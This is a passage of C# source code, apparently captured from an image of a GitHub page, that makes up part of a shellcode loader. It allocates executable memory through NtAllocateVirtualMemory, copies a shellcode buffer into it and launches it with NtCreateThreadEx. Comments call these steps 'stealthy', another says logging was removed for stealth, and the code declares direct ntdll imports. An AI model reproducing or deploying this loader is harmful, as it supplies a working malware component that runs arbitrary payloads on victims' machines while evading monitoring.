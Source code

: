 ```
                }

                // Stealthy Memory Allocation
                IntPtr pMemory = IntPtr.Zero;
                UIntPtr size = (UIntPtr)shellcode.Count;
                uint ntstatus = NtAllocateVirtualMemory(
                    (IntPtr)(-1), 
                    ref pMemory, 
                    IntPtr.Zero, 
                    ref size, 
                    0x3000, 
                    0x40
                );

                if (ntstatus != 0 || pMemory == IntPtr.Zero)
                    return;  // Memory allocation failed

                Marshal.Copy(shellcode.ToArray(), 0, pMemory, shellcode.Count);

                // Stealthy Shellcode Execution
                IntPtr hThread = IntPtr.Zero;
                ntstatus = NtCreateThreadEx(
                    out hThread, 
                    0x1FFFFF, 
                    IntPtr.Zero, 
                    (IntPtr)(-1), 
                    pMemory, 
                    IntPtr.Zero, 
                    false, 
                    0, 
                    0x1000, 
                    0x100000, 
                    IntPtr.Zero
                );

                if (ntstatus != 0 || hThread == IntPtr.Zero)
                    return;  // Thread creation failed
            }
            catch (Exception ex)
            {
                // Logging removed for stealth
            }
        }

        // Import stealthy Windows API functions
        [DllImport("ntdll.dll", SetLastError = true)]
        private static extern uint NtAllocateVirtualMemory(
            IntPtr ProcessHandle,
            ref IntPtr BaseAddress,
            IntPtr ZeroBits,
            ref UIntPtr RegionSize,
            uint AllocationType,
            uint Protect
        );

        [DllImport("ntdll.dll", SetLastError = true)]
        private static extern uint NtCreateThreadEx(
            out IntPtr threadHandle,
            uint desiredAccess,
            IntPtr objectAttributes,
            IntPtr processHandle,
            IntPtr startAddress,
            IntPtr parameter,
```